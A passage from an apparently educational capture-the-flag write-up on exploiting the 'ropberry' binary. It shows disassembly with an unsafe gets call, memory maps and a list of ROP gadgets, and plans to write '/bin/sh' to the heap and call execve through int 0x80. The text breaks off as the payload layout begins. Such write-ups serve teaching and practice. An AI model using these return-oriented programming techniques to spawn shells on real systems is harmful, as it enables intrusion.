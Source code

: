 ```nasm
   0x08048ee9 <+25>:	mov    DWORD PTR [esp],0x0
   0x08048ef0 <+32>:	mov    DWORD PTR [ebp-0x8],eax
   0x08048ef3 <+35>:	mov    DWORD PTR [ebp-0xc],ecx
   0x08048ef6 <+38>:	call   0x80499f0 <fflush>
   0x08048efb <+43>:	lea    ecx,[ebp-0x4]
   0x08048efe <+46>:	mov    DWORD PTR [esp],ecx
   0x08048f01 <+49>:	mov    DWORD PTR [ebp-0x10],eax
   0x08048f04 <+52>:	call   0x8049af0 <gets>
   0x08048f09 <+57>:	mov    DWORD PTR [ebp-0x14],eax
   0x08048f0c <+60>:	add    esp,0x18
   0x08048f0f <+63>:	pop    ebp
   0x08048f10 <+64>:	ret    
End of assembler dump.
```

As we can see from the disassembly result, this binary doesn't use library. Which means that every function used inside this executable "is" inside this executable.

We can also check the absense of library by looking at the proccess map:
```
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x80ed000    0xa5000        0x0 /home/junheah/Desktop/allmn/2/ropberry
	 0x80ed000  0x80ef000     0x2000    0xa4000 /home/junheah/Desktop/allmn/2/ropberry
	 0x80ef000  0x8113000    0x24000        0x0 [heap]
	0xf7ff9000 0xf7ffc000     0x3000        0x0 [vvar]
	0xf7ffc000 0xf7ffe000     0x2000        0x0 [vdso]
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```
Since there are lots of functions, there are also lots of gadgets to make use of.
By using peda's ``ropgadget`` function, we can get a list of gadgets inside the binary:
```bash
gdb-peda$ ropgadget
ret = 0x8048134
addesp_4 = 0x807e9c9
popret = 0x80481ec
pop4ret = 0x804859b
pop3ret = 0x804859c
pop2ret = 0x804859d
...
```
But, the binary doesn't have ``/bin/sh`` string and ``system`` function. Which forces us to use ``int 0x80`` system interrupt.

### 1-3. Scenario
This is the attack scenario i came up with:
1. find writable space
2. write '/bin/sh' inside that space using gets
3. use system interrupt to call execve('/bin/sh', null, null)

To find the writeable space, we have to take a look at memory map of the process:
```
08048000-080ed000 r-xp 00000000 08:04 5243415                            /home/junheah/Desktop/allmn/2/ropberry
080ed000-080ef000 rw-p 000a4000 08:04 5243415                            /home/junheah/Desktop/allmn/2/ropberry
080ef000-08113000 rw-p 00000000 00:00 0                                  [heap]
f7ff9000-f7ffc000 r--p 00000000 00:00 0                                  [vvar]
f7ffc000-f7ffe000 r-xp 00000000 00:00 0                                  [vdso]
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]
```
I chose to use ``heap`` section, which makes our input stack should look like this:
<table>
	<tr><td>dummy data : 8 bytes</td></tr>